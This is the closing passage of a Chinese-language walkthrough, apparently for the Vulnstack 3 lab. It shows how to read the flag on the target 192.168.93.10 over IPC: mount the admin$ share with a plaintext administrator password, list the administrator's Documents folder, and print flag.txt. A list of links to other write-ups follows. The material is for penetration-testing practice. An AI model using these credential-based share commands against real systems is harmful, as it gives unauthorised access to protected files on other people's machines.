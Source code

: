 

或者wmiexec使用IPC读取flag,但是不是很稳定，可能需要多尝试几遍

```
net use \\192.168.93.10\admin$ zxcASDqw123!! /user:test\administrator

dir \\192.168.93.10\C$\users\administrator\Documents

type \\192.168.93.10\C$\users\administrator\Documents\flag.txt
```

![image-20210510151810866](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210510151810866.png)



## 参考链接

```
https://xz.aliyun.com/t/6988#toc-3

https://www.shangmayuan.com/a/054094f175334cafb5688f14.html

https://www.c0bra.xyz/2020/01/24/%E6%B8%97%E9%80%8F-Vulnstack%E9%9D%B6%E6%9C%BA%E5%AD%A6%E4%B9%A03/

https://github.com/niudaii/my-vulstack-wp/blob/master/vulstack-3.pdf

https://www.freebuf.com/articles/network/260575.html
```

